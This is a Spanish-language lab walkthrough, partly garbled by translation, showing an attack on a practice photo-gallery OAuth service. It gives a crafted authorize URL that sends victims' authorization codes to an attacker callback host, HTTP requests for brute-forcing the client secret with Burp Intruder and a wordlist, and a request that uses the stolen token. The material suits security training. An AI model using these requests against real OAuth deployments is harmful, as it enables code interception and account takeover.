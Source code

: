 ```
http://gallery:3005/oauth/authorize?response_type=code&redirect_uri=http%3A%2F%2Fattacker%2Fcallback&scope=view_gallery&client_id=photoprint
```

Al iniciar sesión, hay una **pantalla de consentimiento**, que debe aceptarse, al igual que un inicio de sesión normal a través de OAuth.

A continuación, se redirige al usuario al sitio web del **atacante** con el código de autorización en el valor de devolución de llamada. Cualquier usuario al que se le envíe la URL anterior e inicie sesión a través de ella, realizará una solicitud al sitio web del atacante revelando el código de autorización.

La vulnerabilidad subyacente es una redirección no validada.

Tarea 2. Usar el código adquirido para forzar el secreto del cliente

En función de una solicitud de token de ejemplo (https://auth0.com/docs/api-auth/tutorials/authorization-code-grant), puede construir la siguiente solicitud POST.

```
POST /token HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

redirect_uri=http%3A%2F%2Fgallery%3A3005%2Fcallback&grant_type=authorization_code&client_id=photoprint&client_secret=§guess§&code=44438Note: 
```

* Copiar y pegar la solicitud anterior puede dar lugar a problemas de formato que harán que la solicitud HTTP tenga un formato incorrecto.
* La mejor manera de reproducir esa solicitud es iniciar sesión como se describe en el manual (obteniendo el primer código), capturar la solicitud usando Burp y enviarla a Repeater.
* Usando Burp Intruder y una lista de palabras (usamos Rockyou-10 disponible aquí) puedes forzar el secreto del cliente.

Después de iniciar el ataque, pronto nos damos cuenta de que el secreto del cliente es **secreto**.

En la ventana Repetidor:

```
POST /token HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 136
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
redirect_uri=http%3A%2F%2Fgallery%3A3005%2Fcallback&grant_type=authorization_code&client_id=photoprint&client_secret=secret&code=44438
Note: Specify the code that you received in the response.  
The response access token can now be supplied to the /photos/me?access_token= endpoint.
GET /photos/me?access_token=35580 HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```